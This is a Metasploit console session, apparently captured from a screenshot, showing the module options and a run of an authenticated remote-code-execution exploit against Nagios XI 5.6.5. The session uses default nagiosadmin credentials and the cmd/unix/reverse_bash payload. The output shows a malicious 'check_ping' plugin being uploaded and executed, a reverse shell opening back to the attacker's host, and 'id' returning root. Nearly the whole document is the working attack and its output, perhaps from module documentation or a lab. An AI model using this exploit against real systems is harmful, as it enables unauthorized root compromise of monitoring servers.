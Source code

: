 ```
   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so
                                              . This includes signing the license agreement.
   PASSWORD        nagiosadmin      yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.1.14     yes       The target host(s), range CIDR identifier, or hosts file with synt
                                              ax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                              address on the local machine or 0.0.0.0 to listen on all addresses
                                              .
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.28     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)


msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.28:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.5
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the payload to connect back...
[*] Command shell session 2 opened (192.168.1.28:4444 -> 192.168.1.14:54242) at 2021-04-01 11:02:32 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

id
uid=0(root) gid=0(root) groups=0(root)

```